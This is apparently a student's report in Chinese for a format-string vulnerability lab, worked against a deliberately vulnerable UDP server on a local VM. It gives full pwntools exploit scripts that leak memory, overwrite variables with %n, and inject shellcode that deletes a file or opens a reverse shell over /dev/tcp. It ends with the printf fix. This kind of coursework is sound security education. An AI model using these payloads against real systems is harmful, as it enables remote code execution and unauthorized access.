# Format String Vulnerability Lab

> 1120162015 李博

## Task 1: The Vulnerable Program

首先关闭系统地址随机化，并编译源码。



为了方便，这里使用一台虚拟机同时充当服务器和客户端的角色，如下图。




## Task 2: Understanding the Layout of the Stack



### Question 1: What are the memory addresses at the locations marked by 1,2 and 3?

下图框出的地址是`main`函数的buf起始地址`0xbfffe790`，即mark3。



下图框出的的地址是`myprintf`函数的return地址`0xbfffe74c`，即mark2。



下图框出的的地址是`printf`函数的格式化参数的地址`0xbfffe730`，即mark1。



### Question 2: What is the distance between the locations marked by 1 and 3?

mark1和3之间的距离为`0xbfffe790-0xbfffe730=0x60`。

## Task 3: Crash the Program

如下图，当输入为`aaaa%24$x`时，输出为`aaaa61616161`，表示`aaaa`距栈上第一个参数距离为24。

当输入为`aaaa%24$s`时，printf函数将`aaaa`当做地址解析，尝试读取0x61616161的内容，由于该地址为非法地址，故出现段错误。



## Task 4: Print Out the Server Program’s Memory

### Task 4.A: Stack Data

如下图，输入为`aaaa%24$x`即可输出我们的输入。



### Task 4.B: Heap Data

`exp.py`脚本内容如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

payload = p32(0xbffff0a0) + "%24$s"
io.sendline(payload)

io.interactive()
```

结果如下，可以看到泄露出地址`0xbffff0a0`，由于我们的输入为不可见字符，故输出的内容也不可见。



## Task 5: Change the Server Program’s Memory

### Task 5.A: Change the value to a different value.

脚本如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

payload = p32(0x0804a040) + "%24$hhn"
io.sendline(payload)

io.interactive()
```

结果如下图，可以看到变量`target`的低字节由`0x44`被改为`0x04`，这是因为`%24$hhn`能够对目标地址`0x804a040`进行覆盖一个字节，且覆盖内容为前面字符串的长度，即`len(p32(0x0804a040)) == 4`。


### Task 5.B: Change the value to 0x500

脚本如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

payload = p32(0x0804a040)
payload += "%{}c".format(0x500-len(payload))
payload += "%24$n"
io.sendline(payload)

io.interactive()
```

要使变量`target`的值被覆盖为`0x500`，需进行一次性覆盖，否则若单字节覆盖会因为`\x00`而使payload被截断。

故采用`%n`进行操作。

结果如下



### 	Task 5.C: Change the value to 0xFF990000

脚本如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

# 0x3344 -> 0x0000
payload = "%26$hnaa" + p32(0x0804a040)

# 0x22 -> 0x99
payload += p32(0x0804a040+2)
payload += p32(0x0804a040+3)
payload += "%{}c".format(0x99-len(payload)+6)
payload += "%27$hhn"

#0x11 -> 0xff
payload += "%{}c".format(0xff-0x99)
payload += "%28$hhn"

print payload
io.sendline(payload)

io.interactive()
```

由于目标值为`0xff990000`，低两个字节均为0，故在payload开头就使用`%26$hn`,由于`%n`前面没有任何字符，故低两个字节被覆盖为0。	

接着由于高两个字节一次性覆盖输出字符太多，故采用`%hhn`单字节覆盖。由于`%hhn`这种没有被计算在长度内，故第11行需补充`len("%26$hhn") == 6`个字节。	

结果如下



## Task 6: Inject Malicious Code into the Server Program

脚本如下

```python
from sys import *
from pwn import *

context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']

io = remote("127.0.0.1",9090,typ='udp')
#io = process('./vul')

# /bin/bash -c "/bin/rm /tmp/myfile"
shellcode = "1\xc0Phbashh////h/bin\x89\xe31\xc0Ph-ccc\x89\xe01\xd2Rhile h/myfh/tmph/rm h/bin\x89\xe21\xc9QRPS\x89\xe11\xd21\xc0\xb0\x0b\xcd\x80"

# execve("/bin/sh",0,0)
#shellcode ="1\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\x99\xb0\x0b\xcd\x80\x00"
#print len(shellcode)

#shellcode_addr = 0xbfffe7c0 + 0x40
shellcode_addr = 0xbfffe820

# 1. rewrite ret_addr to shellcode_addr
#ret_addr = 0xbfffe79c
ret_addr = 0xbfffe79c

payload = p32(ret_addr) 
payload += p32(ret_addr+1)
payload += p32(ret_addr+2)
payload += p32(ret_addr+3)
payload += "%{}c".format(((shellcode_addr&0xff)-16+256)&0xff) 
payload += "%24$hhn"
payload += "%{}c".format((((shellcode_addr>>8)&0xff)-(shellcode_addr&0xff)+256)&0xff)
payload += "%25$hhn"
payload += "%{}c".format((((shellcode_addr>>16)&0xff)-((shellcode_addr>>8)&0xff)+256)&0xff)
payload += "%26$hhn"
payload += "%{}c".format((((shellcode_addr>>24)&0xff)-((shellcode_addr>>16)&0xff)+256)&0xff)
payload += "%27$hhnaa"

print len(payload)

#p = fmtstr_payload( 24, {ret_addr:shellcode_addr} ) + 'aa'
#print p==payload
payload += shellcode

print payload
pause()
io.sendline(payload)

io.interactive()
```

由于在没开ALSR的情况下gdb调试产生的地址是有一定偏差（不准确的），故这里我在脚本中使用`pause()`阻塞程序运行，然后另开一个terminal使用`sudo gdb -q -p pid`命令对程序进行调试。

首先在py脚本暂停的时候，新开一个terminal，用`lsof -i:9090`查看占用9090端口的程序，如下图。



接着`sudo gdb -q -p 13831`进行attach。

在程序进入`myprintf`函数后，查看其返回地址，如下图，为`0xbfffe79c`。



接着在`printf(msg)`这行代码执行结束后，查看栈内容，找到shellcode的起始地址，如下图。

画横线处为payload的最后四个字节，之后便是shellcode，故shellcode的起始地址为`0xbfffe820`。



获取到两个地址后，关键就是如何构造payload。

为减少terminal的输出字符，我采用单字节覆盖的方法，使用`%hhn`逐字节将ret_addr的内容覆盖为shellcode_addr。

需要注意的是，尽管可能前面输出的字节数大于当前要覆盖的字节，由于这里是单字节，大于0xff的部分均会由于溢出被舍去，故依次计算即可。

结果如下，可以看到命令`/bin/bash -c "/bin/rm /tmp/myfile"`执行成功。



## Task 7: Getting a Reverse Shell

脚本如下

```python
from sys import *
from pwn import *

context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']

io = remote("127.0.0.1",9090,typ='udp')
#io = process('./vul')

# /bin/bash -c "/bin/rm /tmp/myfile"
#shellcode = "1\xc0Phbashh////h/bin\x89\xe31\xc0Ph-ccc\x89\xe01\xd2Rhile h/myfh/tmph/rm h/bin\x89\xe21\xc9QRPS\x89\xe11\xd21\xc0\xb0\x0b\xcd\x80"

# execve("/bin/sh",0,0)
#shellcode ="1\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\x99\xb0\x0b\xcd\x80\x00"

# /bin/bash -c "/bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1 2>&1"
shellcode = "1\xc0Phbashh////h/bin\x89\xe31\xc0Ph-ccc\x89\xe01\xd2Rh2>&1h<&1 h70 0h1/70h0.0.h127.htcp/hdev/h > /hh -ih/bash/bin\x89\xe21\xc9QRPS\x89\xe11\xd21\xc0\xb0\x0b\xcd\x80"
#print len(shellcode)

#shellcode_addr = 0xbfffe7c0 + 0x40
shellcode_addr = 0xbfffe820

# 1. rewrite ret_addr to shellcode_addr
#ret_addr = 0xbfffe79c
ret_addr = 0xbfffe79c

payload = p32(ret_addr) 
payload += p32(ret_addr+1)
payload += p32(ret_addr+2)
payload += p32(ret_addr+3)
payload += "%{}c".format(((shellcode_addr&0xff)-16+256)&0xff) 
payload += "%24$hhn"
payload += "%{}c".format((((shellcode_addr>>8)&0xff)-(shellcode_addr&0xff)+256)&0xff)
payload += "%25$hhn"
payload += "%{}c".format((((shellcode_addr>>16)&0xff)-((shellcode_addr>>8)&0xff)+256)&0xff)
payload += "%26$hhn"
payload += "%{}c".format((((shellcode_addr>>24)&0xff)-((shellcode_addr>>16)&0xff)+256)&0xff)
payload += "%27$hhnaa"

print len(payload)

#p = fmtstr_payload( 24, {ret_addr:shellcode_addr} ) + 'aa'
#print p==payload
payload += shellcode

print payload
pause()
io.sendline(payload)

io.interactive()
```

关键在于将原本执行的`/bin/rm /tmp/myfile`替换成`bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1`。

并且要在本地执行`nc -l 7070 -v`监听端口。

结果如下图



## Task 8: Fixing the Problem

在task1中编译出现warning，如下图。


提示printf的参数不是格式化参数。

解决方法很简单，如下图，将`printf(msg)`改为`printf("%s\n",msg)`即可。


重新编译，如下图。



尝试攻击，如下图。

可以看到输出即输入，攻击失败。

